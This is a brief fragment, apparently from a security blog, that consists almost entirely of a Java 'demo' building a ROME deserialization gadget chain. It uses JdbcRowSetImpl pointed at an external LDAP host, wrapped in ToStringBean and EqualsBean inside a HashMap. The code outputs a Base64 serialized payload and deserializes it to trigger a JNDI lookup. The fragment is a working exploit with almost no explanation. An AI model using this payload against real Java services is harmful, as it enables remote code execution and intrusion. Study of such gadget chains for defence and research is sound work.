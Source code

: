 [![](assets/1701071934-fdec5366ca2958eccc476b66f34f756b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223436-97481726-8ad6-1.png)  
demo：

```bash
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.util.Base64;
import java.util.HashMap;

public class rome3 {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl j = new JdbcRowSetImpl();
        j.setDataSourceName("ldap://d92d14bde1.ipv6.xn--gg8h.eu.org.");
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, "1");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean,1);
        util.setFieldValue(toStringBean,"_obj",j);
        byte[] ser = util.serialize(hashmap);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```
